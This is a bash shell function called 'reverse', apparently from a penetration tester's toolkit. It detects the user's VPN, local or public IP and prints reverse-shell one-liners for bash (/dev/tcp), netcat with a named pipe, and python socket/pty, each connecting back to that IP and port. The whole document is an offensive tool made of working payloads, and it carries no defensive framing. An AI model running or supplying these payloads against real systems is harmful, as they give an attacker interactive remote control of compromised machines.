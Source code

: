 reverse ()
{
  local port=443;
  adaptors=$(ip a | egrep ^[0-9]+ | cut -d" " -f 2 | sed 's/://g');
  OPTIND=1;
  usage()( echo "reverse [-i <interface>] [-l <language>] [-p <port>]";
  printf "Language Options:\n  bash\n  nc\n  python\n\n" );
  while getopts ":i:l:p:h" options; do
      case "${options}" in
        i) local interface=${OPTARG};
          if ! echo $interface |  egrep -qo "public"; then
            if ! echo $adaptors | grep -qo "$interface"; then
              echo  "Interface "${OPTARG}" does not exist";
              usage;
              return;
            fi;
          fi
          ;;
        l) local language=${OPTARG}
          ;;
        p) local port=${OPTARG}
          ;;
        h) usage;
          return
          ;;
        :) echo "Error: -${OPTARG} requires an argument";
          usage;
          return
          ;;
        *) echo "Unknown Switch: -${OPTARG}";
          usage;
          return
          ;;
        esac;
      done;
      if [ -z $interface ]; then
        if ip a | egrep -qo "tun0"; then
          local interface="tun0";
        elif echo $interface | egrep -qo "public" ; then
          local interface="public";
        elif ip a | egrep -qo "eth0"; then
          local interface="eth0";
        elif ip a | egrep -qo "ens33"; then
          local interface="ens33";
        else
          local interface="lo";
        fi;
      fi;
      if echo $interface | egrep -qo "public"; then
        local ip=$(wget -qO - ipv4.icanhazip.com);
      else
        local ip=$(ip a show $interface | egrep -o "([0-9]{1,3}.){3}[0-9]{1,3}" | head -1);
      fi;
      local randName=$(head -4 /dev/urandom | sha256sum | base64 | head -c 5);
      declare -A shells=( ["bash"]="bash -i >& /dev/tcp/$ip/$port 0>&1" ["nc"]="mkfifo /tmp/$randName; nc $ip $port 0</tmp/$randName | /bin/sh >/tmp/$randName 2>&1; rm /tmp/$randName" ["python"]="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'" );
      if [ -z $language ]; then
        printf "\n";
        for i in "${shells[@]}";do
          printf "$i\n\n";
        done;
        return;
      fi;
      printf "\n${shells[$language]}\n\n"; }